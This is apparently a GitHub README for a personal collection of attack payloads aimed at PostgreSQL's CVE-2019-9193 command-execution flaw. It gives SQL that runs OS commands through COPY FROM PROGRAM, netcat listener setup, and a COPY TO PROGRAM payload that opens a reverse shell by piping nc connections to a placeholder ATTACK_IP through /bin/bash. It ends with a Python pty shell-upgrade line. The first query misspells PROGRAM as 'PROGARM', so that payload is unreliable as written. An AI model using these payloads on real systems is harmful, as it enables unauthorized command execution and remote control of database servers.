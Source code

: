 # payloads
Finally got tired of writing the same payloads over and over again.

## Postgres 9.3 > Latest Command Execution: CVE-2019-9193
**Data Exfil via COPY FROM PROGARM and SELECT**

```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGARM 'whoami';
SELECT * FROM cmd_exec;
```

**Reverse Shell via COPY TO PROGRAM**

On attack machine tab1 (shell input):
```
nc -lvp 4444
```

On attack machine tab2 (shell output):
```
nc -lvp 4445
```

On the target run the payload listed below. The shell will close when the SQL
query is complete, so you need to set the number of seconds you want the shell
open for via `pg_sleep`. Also be sure to set the ATTACK_IP.
```
COPY (SELECT pg_sleep(120)) TO PROGRAM 'nc ATTACK_IP 4444 | /bin/bash -i 2>&1 | nc ATTACK_IP 4445;'
```

## Python psuedo terminal upgrade
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
